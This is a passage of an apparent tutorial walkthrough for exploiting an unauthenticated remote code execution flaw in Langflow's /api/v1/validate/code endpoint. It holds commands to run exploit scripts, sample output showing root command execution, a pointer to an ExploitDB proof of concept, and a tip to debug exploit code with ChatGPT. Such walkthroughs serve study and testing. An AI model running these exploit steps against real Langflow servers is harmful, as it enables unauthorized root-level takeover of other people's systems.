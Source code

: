 Run it:

```bash
uv venv critical
source critical/bin/activate
uv pip install requests
uv run python exploit2.py
```

✅ You should see:

```
[*] Status Code: 200
[*] Response: {"function":{"errors":["b'uid=0(root) gid=0(root) groups=0(root)\\n'"]}}
```

---

## 🧠 Why This Works

Langflow’s `/api/v1/validate/code` endpoint:

* Accepts Python code as input
* Executes decorators like `@exec(...)`
* Doesn't sandbox user input
* Doesn’t require authentication

This combo = RCE.

---

## 🧰 Using ExploitDB's PoC

Grab the full PoC from:
📎 [https://www.exploit-db.com/exploits/52262](https://www.exploit-db.com/exploits/52262)

Save it as `exploit.py`, then run:

```bash
uv pip install colorama
uv run python exploit.py http://localhost:7860 "id"
```

> If it fails (e.g., syntax error, empty response), use ChatGPT to debug — paste the code + error.

---

## 🛠️ Use ChatGPT for Debugging

If you hit errors like:

* `SyntaxWarning: invalid escape sequence`
* `function.errors: []`
* `list index out of range`

Paste into ChatGPT and ask:
